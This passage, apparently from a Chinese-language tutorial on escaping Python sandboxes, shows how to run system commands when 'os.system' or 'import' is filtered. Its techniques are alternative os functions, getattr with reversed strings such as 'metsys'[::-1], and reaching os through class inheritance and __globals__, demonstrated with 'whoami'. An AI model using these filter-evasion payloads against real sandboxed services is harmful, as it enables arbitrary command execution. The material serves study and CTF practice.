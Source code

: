 通过上面内容我们很容易发现，光引入`os`只不过是第一步，如果把`system`这个函数干掉，也没法通过`os.system`执行系统命令，并且这里的`system`也不是字符串，也没法直接做编码等等操作。

不过，要明确的是，os 中能够执行系统命令的函数有很多：

```
print(os.system('whoami'))
print(os.popen('whoami').read()) 
print(os.popen2('whoami').read()) # 2.x
print(os.popen3('whoami').read()) # 2.x
print(os.popen4('whoami').read()) # 2.x
...
```

应该还有一些，可以在这里找找：

[2.x 传送门](https://docs.python.org/2/library/os.html)

[3.x 传送门](https://docs.python.org/3/library/os.html)

过滤`system`的时候说不定还有其他函数给漏了。

其次，可以通过 `getattr` 拿到对象的方法、属性：

```
import os
getattr(os, 'metsys'[::-1])('whoami')
```

不让出现 import也没事：

```
>>> getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')
desktop-13qds1a\lenovo
0
```

与 `getattr` 相似的还有 `__getattr__`、`__getattribute__`，它们自己的区别就是`getattr`相当于`class.attr`，都是获取类属性/方法的一种方式，在获取的时候会触发`__getattribute__`，如果`__getattribute__`找不到，则触发`__getattr__`，还找不到则报错。更具体的这里就不解释了，下面有。

### 通过继承关系逃逸

*[这里](#Python中的一些 Magic Method)

```
>>> for i in enumerate(''.__class__.__base__.__subclasses__()): print(i)
```

Python 中有个属性，`.__mro__` 或 `.mro()`，是个元组，记录了继承关系：

```
>>> '1'.__class__.mro()
[<class 'str'>, <class 'object'>]
>>> '1'.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

类的实例在获取 `__class__` 属性时会指向该实例对应的类。可以看到，`''`属于 `str`类，它继承了 `object` 类，这个类是所有类的超类。具有相同功能的还有`__base__`和`__bases__`。需要注意的是，经典类需要指明继承 object 才会继承它，否则是不会继承的（Python 3.9 测试无需指明）

那么知道这个有什么用呢？

由于没法直接引入 os，那么假如有个库叫`oos`，在`oos`中引入了`os`，那么我们就可以通过`__globals__`拿到 `os`。例如，`site` 这个库就有 `os`：

```
>>> __import__('site').os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
```


